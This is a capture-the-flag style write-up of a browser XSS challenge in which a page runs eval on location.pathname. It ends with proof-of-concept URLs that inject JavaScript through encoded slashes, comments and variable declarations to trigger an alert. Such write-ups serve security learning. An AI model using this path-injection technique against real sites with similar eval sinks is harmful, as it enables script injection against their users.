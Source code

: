 # alert(23) to win - eval(location.pathname) - writeup

while surfing the internet for some sec news, a xss challenge came across.
challenge address `https://renwax23.github.io/X/chal/oct22/`

It's on github. So there is no backend, all the codes are in the front. Let's see it.

```javascript

if(/\/chal\/oct22\//.test(location.pathname.substr(0,15))){

eval(location.pathname)

}
```
The logic is simple. After checking the location.pathname, pathname will be evaled. So this is the sink.

## round one
https://renwax23.github.io/X/chal/oct22/ 
Check the console. We see a syntax error.
`
Uncaught SyntaxError: Invalid regular expression flags
    at (index):23
`
So i think that the key is regex. After reading some docs about regex, I couldn't get an answer.

I tried some random stuff.`-` `&` `?` `\` , and get 404.

round one failed.

## round two
So I need to get code 200 and insert some code in the url.
But how? Some are urlencoded. Some will return code 404. I fuzzed the url to see what I can insert while it still returns 200. No luck.
https://renwax23.github.io/X/chal/oct22//
I add a `/` in the url. And it returned 200. So I can insert `/` as I need.
https://renwax23.github.io//X/chal/oct22/
I add a `/` in the front. Checking the console, there's no syntax error. I thought that it's the right way. So I need to get some line break. Because `//` comment the code. Trying '%0d%0a' and `\u2028` (from prompt(1) to win), they are urlencoded.

I also tried `a/../`. But chrome will short it. 
Trying some urlencode. And `https://renwax23.github.io//X/chal/oct22/a/..%2f` returns code 200.
Eureka!
Now I can inject code into pathname and I still get code 200.

## round three
But there's still no alert.
https://renwax23.github.io/X//chal/oct22/a/..%2f
So I moved `/`. New error.
```
Uncaught SyntaxError: Unexpected token '.'
```
Not regex syntax error.

So now I need to get the syntax right. After some trying, I get a new error message.
https://renwax23.github.io/X//chal/oct22/a;//..%2f
```
Uncaught ReferenceError: chal is not defined
```
So we need to need to define `chal`. And in javascript, you can use before define. So we can use `var` to define. I tried `var chal`. Space will be %20. Syntax error.
We can use comment `/**/` to seperate.

In the end, we get the alert.
poc:
https://renwax23.github.io/X//chal/oct22/-alert(23);var/*/..%2f/..%2f/*/chal=1;var/*/..%2f/..%2f/..%2f/*/oct22=2//..%2f/..%2f

Sereval hours later. I tried again. And get a less one.
https://renwax23.github.io/X//chal/oct22/alert(23);var/*/..%2f../*/chal,oct22//..%2f..

Really interesting challenge. Thanks to the author.

